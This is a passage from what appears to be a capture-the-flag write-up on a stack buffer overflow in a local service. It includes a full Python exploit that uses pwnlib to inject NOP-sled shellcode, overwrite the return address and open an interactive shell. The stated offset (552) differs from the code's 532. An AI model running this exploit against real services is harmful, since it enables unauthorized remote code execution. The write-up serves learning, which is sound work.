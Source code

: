 Easy, the address of our shellcode needs to be at offset `552`. As an address (no ASLR), we can use an address shortly after the beginning of the buffer (after the `\n` byte we place there). Since the buffer is quite large we can leave some room (rember, offsets are slightly different in GDB due to the different environment).  Now we can create a payload with `pwnlib` or `msfvenom` and we're done...

Or so I thought. At this point I got completely stuck. I tried generating different shellcode with the various tools and ended up trying out pretty much every shellcode I came across both for the 32-bit and 64-bit variant. No luck. I double checked and was sure that the shellcode was reached and executed and no bytes were harmed in the process. But either it segfaulted during the shellcode execution or it reached some syscall and just *stopped doing anything*. In the end I even reached out to various channels where I searched for help (thanks, u/joenibe :) ).

Then I reduced my goals to just executing a single command on the target (e.g. `id`). And in gdb I could see that a new process was spawned, but when I never saw any output from my exploit, it dawned on me. I sent the exploit to the server and then, in my script, just closed the socket right away. Obviously not the greatest idea if you want to read from a newly spawned process. I quickly changed my exploit and came up with the following (first 32-bit, then 64-bit), giving me a basic shell.

### 32-bit exploit (port 64013)
```Python
import struct
import socket
import pwnlib

HOST = "127.0.0.1"
PORT = 64013
# buffer offset is 0xffffdb18
SHELLCODE_ADDR = 0xffffdb20 

def read_line_from_sock(socket):
    buf = ""
    while True:
        b = s.recv(1)
        if b == b'\n':
            break
        buf += b.decode("ascii")
    return buf

# EXPLOIT CODE starts here
payload = "\r" + b'\x90' * 16 
payload += pwnlib.encoders.encoder.encode(pwnlib.asm.asm(pwnlib.shellcraft.i386.linux.sh()), "\n\r\0")
payload += b'\x90'*(532 - len(payload)) 
payload += struct.pack("<I", SHELLCODE_ADDR) + "\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

print(read_line_from_sock(s))
print("+ sending payload")
s.sendall(payload)
print("+ we have a shell now!")

while True:
    s.sendall(raw_input() + "\n")
    print(s.recv(1024))
```
